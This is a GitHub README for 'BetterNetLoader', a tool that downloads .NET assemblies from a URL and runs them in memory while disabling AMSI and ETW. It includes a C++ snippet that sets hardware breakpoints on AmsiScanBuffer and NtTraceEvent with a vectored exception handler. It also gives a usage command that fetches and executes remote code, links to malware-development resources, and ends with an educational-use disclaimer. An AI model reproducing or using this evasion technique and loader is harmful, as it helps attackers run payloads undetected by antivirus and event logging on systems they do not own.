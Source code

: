 # BetterNetLoader

This is a version of [NetLoader](https://github.com/Flangvik/NetLoader) to execute .NET Assemblies in memory and bypassing ETW and AMSI.

Only this version uses Hardware Breakpoints to bypass defenses:
```cpp
HwbpEngineBreakpoint(0, GetProcAddress(LoadLibraryA("amsi.dll"), "AmsiScanBuffer"));
HwbpEngineBreakpoint(1, GetProcAddress(LoadLibraryA("ntdll.dll"), "NtTraceEvent"));
if (!(ExceptionHandle = AddVectoredExceptionHandler(TRUE, (PVECTORED_EXCEPTION_HANDLER)HwbpEngineHandler))) {
  printf("[-] AddVectoredContinueHandler Failed with Error: %lx\n", GetLastError());
	goto _END_OF_FUNC;
}
```

It places 2 Hardware Breakpoints: one on `AmsiScanBuffer` and another on `NtTraceEvent` to effectively disable these two functions part of AMSI and ETW respectively.

# Usage:

```cmd
.\BetterNetLoader.exe <url> <arguments...>
```

# Example:
![image](https://github.com/user-attachments/assets/1ad9283c-057e-4e30-be0b-a7c3303dabf5)

# Resources

Hosting the CLR Natively -> https://github.com/etormadiv/HostingCLR

Microsoft Documentation on CLR Hosting using COM Interfaces -> https://learn.microsoft.com/en-us/dotnet/framework/unmanaged-api/hosting/clr-hosting-interfaces

Hardware Breakpoint Sample Code (recommended for maldev snippets) -> https://github.com/rad9800/hwbp4mw

VX-API (recommended for maldev snippets) -> https://github.com/vxunderground/VX-API

Maldev Academy for learning about Malware Development -> https://maldevacademy.com

Information about Wininet from Microsoft -> https://learn.microsoft.com/en-us/windows/win32/wininet/about-wininet

Gists for Wininet Windows Library for HTTP Requests -> https://gist.github.com/AhnMo/5cf37bbd9a6fa2567f99ac0528eaa185

# DISCLAIMER

## IMPORTANT: READ CAREFULLY BEFORE USING THIS SOFTWARE

By using this software, you agree to the following terms:

## Purpose of Use
This software is provided strictly for educational purposes only, specifically to help users understand programming techniques, cybersecurity concepts, and software development practices. It is not intended to be used for any malicious, illegal, or unethical activities.

## Prohibited Activities
Any use of this software for the following purposes is explicitly prohibited and is a violation of this agreement:

Exploiting vulnerabilities or gaining unauthorized access to systems, networks, or devices.
Developing or deploying malicious software, such as viruses, trojans, or ransomware.
Engaging in any activities that violate local, national, or international laws or regulations.
Conducting activities that cause harm, disruption, or damage to any individual, organization, or system.

## Liability and Responsibility

The author of this software assumes no liability or responsibility for any damages, losses, or legal consequences resulting from the misuse of this software.
The user is solely responsible for ensuring compliance with all applicable laws and regulations in their jurisdiction. The author disclaims all liability for actions taken by users that violate these laws or this disclaimer.
Acknowledgment of Ethical Use

## By using this software, you acknowledge and agree to:

Use the software in a responsible, ethical, and lawful manner.
Refrain from using the software in any way that could harm individuals, organizations, or infrastructure.
Understand that this software is provided "as is," without any warranty or guarantee of functionality or suitability for any purpose.

## Educational Focus
This software is designed to educate and enhance skills in secure programming, ethical cybersecurity practices, and system understanding. It is intended for use in controlled environments, such as personal research or academic study, where proper authorization has been granted.

By downloading, installing, or using this software, you acknowledge that you have read, understood, and agreed to this disclaimer. If you do not agree with these terms, you are strictly prohibited from using the software and must delete it immediately.
